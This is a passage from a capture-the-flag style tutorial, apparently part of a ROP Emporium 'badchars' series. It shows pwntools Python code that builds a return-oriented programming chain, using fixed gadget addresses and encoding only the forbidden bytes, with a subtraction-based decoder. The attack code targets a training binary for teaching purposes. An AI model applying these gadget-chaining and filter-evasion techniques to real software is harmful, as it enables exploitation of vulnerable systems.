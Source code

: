 ### Extra Credit
If you've made it this far in the series then you're
probably comfortable chaining gadgets together. From
here on out we'll be working with various constraints
such as sparse gadgets or a limited stack size. Depending
on the conditions, the size of our payload may matter!

The first solution is simpler to code, but we could
make the size of our payload smaller. The largest 
amount of space could be saved by not encoding every
byte of the string, but only encoding the forbidden
characters! A smaller optimization could
be applied to our decoding function. Since `ebx` is
set to the same value during decoding, we only need
to set it once during the whole decoding process!

Here are the updated functions which produces a payload 
that is more space efficient

```python
#!/bin/python3
from pwn import *

invalid_bytes = [ord('x'), ord('g'), ord('a'), ord('.')]
sub_addr = 0x0804854b       # sub byte [ebp], bl
pop_ebp = 0x080485bb        # ebp = address to modify with sub
pop_ebx = 0x080485d6        # bl is low 8 of ebx

# subtract 1 at proper indices
sub_indices = []
def decode_str(addr, s):
    payload = b''
    ebx_set = False
    for i in range(0, len(s)):
        # only subtract encoded indices
        if i not in sub_indices:
            continue
        # only set ebx once
        if not ebx_set:
            ebx = p32(0x1)
            payload += p32(pop_ebx) + ebx
            ebx_set = True
        ebp = p32(addr + i)
        payload += p32(pop_ebp) + ebp
        payload += p32(sub_addr)
    return payload

# add 1 to forbidden chars 
def encode_str(s):
    blist = bytearray(s)
    for i in range(0, len(blist)):
        if blist[i] in invalid_bytes:
            blist[i] += 1
            # add index to decode
            sub_indices.append(i)
    return blist
```
